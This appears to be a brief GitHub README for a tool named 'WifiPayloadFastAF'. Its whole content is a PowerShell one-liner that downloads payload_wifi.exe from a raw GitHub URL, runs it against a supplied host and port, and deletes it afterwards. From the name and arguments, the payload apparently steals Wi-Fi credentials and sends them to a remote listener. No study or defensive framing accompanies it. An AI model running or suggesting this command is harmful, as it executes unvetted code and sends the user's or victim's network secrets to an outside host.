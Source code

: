 # WifiPayloadFastAF

Try this
<code>Invoke-WebRequest https://raw.githubusercontent.com/Ricc4rdo0107/WifiPayloadFastAF/main/payload_wifi.exe -outfile payload.exe; .\payload.exe {host} {port}; del payload.exe</code>
